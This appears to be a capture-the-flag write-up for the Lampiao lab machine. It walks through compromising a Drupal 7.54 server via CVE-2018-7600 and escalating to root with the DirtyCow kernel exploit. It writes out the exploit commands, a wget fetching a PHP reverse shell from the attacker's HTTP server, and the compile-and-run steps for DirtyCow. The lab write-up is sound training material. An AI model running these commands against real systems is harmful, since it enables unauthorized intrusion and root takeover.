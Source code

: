```yaml
---
layout: single
title: Lampiao - Proving grounds Play
date: 2023-06-13
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - drupal
  - dirtycow
  - kernel
  - easy
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Lampiao machine from Proving grounds play.

### Summary
------------------
- The webserver has a vulnerable Drupal version to RCE.
- We access exploiting this vulnerability.
- We are able to find credentials which allows us to login with a higher privileged user than www-data.
- The Linux kernel version it's vulnerable to dirtycow.
- Exploiting this dirtycow vulnerability allows us to gain access as root user.
### Detailed steps
------------------

### Enumeration

There's a webserver, a SSH service and another interesting open port (1898) running on this box.

![nmap1](\assets\images\pg-play-lampiao\1.JPG)

Let's take a closer look at these ports with Nmap.
 ```
 nmap -A 192.168.201.48 -p 22,80,1898 -o nmap_lampiao.txt
 ```
![nmap2](\assets\images\pg-play-lampiao\2.JPG)

As we can see in the last picture, the 1898 port it's running an HTTP service. Nmap HTTP enum returns some interesting files as CHANGELOG.TXT

CHANGELOG.txt it's a common file in Drupal which shows the current version.
In this case the current version it's `7.54`.

![changelog](\assets\images\pg-play-lampiao\5.JPG)

### Explotation

`Drupal 7.54` it's vulnerable to a remote code execution as we can see in `CVE-2018-7600` --> https://www.drupal.org/sa-core-2018-002
To exploit this vulnerability I used the following python code --> https://github.com/pimps/CVE-2018-7600

The first step was to check the vulnerability. I successfully executed the exploit with `id` command.
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c id
 ```

![exploit1](\assets\images\pg-play-lampiao\6.JPG)


Now, in order to gain access to the victim's machine, I uploaded a PHP revershell to the webserver.

Configuring the webshell:

![shell1](\assets\images\pg-play-lampiao\7.JPG)

After configuring the webshell, I opened an HTTP server on my Kali machine with python in my webshell directory:
 ```
 python3 -m http.server 443
 ```

To upload the webshell I used the python exploit to execute a wget command on the victim's machine:
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c "wget http://192.168.45.177:443/php-reverse-shell.php"
 ```
![exploit2](\assets\images\pg-play-lampiao\8.JPG)


At this point, I was able to access to my webshell on victim's machine and capture the shell running a Netcat listener.
![shell2](\assets\images\pg-play-lampiao\10.JPG)

![shell3](\assets\images\pg-play-lampiao\9.JPG)


Having access to www-data user I was able to find the first flag:
![userflag](\assets\images\pg-play-lampiao\userf.jpg)




### Privilege scalation

In order to elevete my privileges I used Linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Linpeas found the following files with an interesting credentials:
![creds](\assets\images\pg-play-lampiao\15.JPG)

This credentials allowed me to log in via SSH as "tiago" user
![kernel1](\assets\images\pg-play-lampiao\18.JPG)


Linpeas found a kernel vulnerability too:
```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Kernel version:
![kernel2](\assets\images\pg-play-lampiao\13.JPG)

To exploit this vulnerability I downloaded the exploit code and compiled it with:
```
g++ -Wall -pedantic -02 -std=c++11 -pthread -o exploit 40847.cpp -lutil
```

After compiling, I ran the exploit with:
```
./exploit -s
```
![kernel3](\assets\images\pg-play-lampiao\13.JPG)

As we can see in the last picture, I was able to gain access to root user executing this kernel exploit.
Root access allowed me to find the last flag:
![kernel3](\assets\images\pg-play-lampiao\rootf.jpg)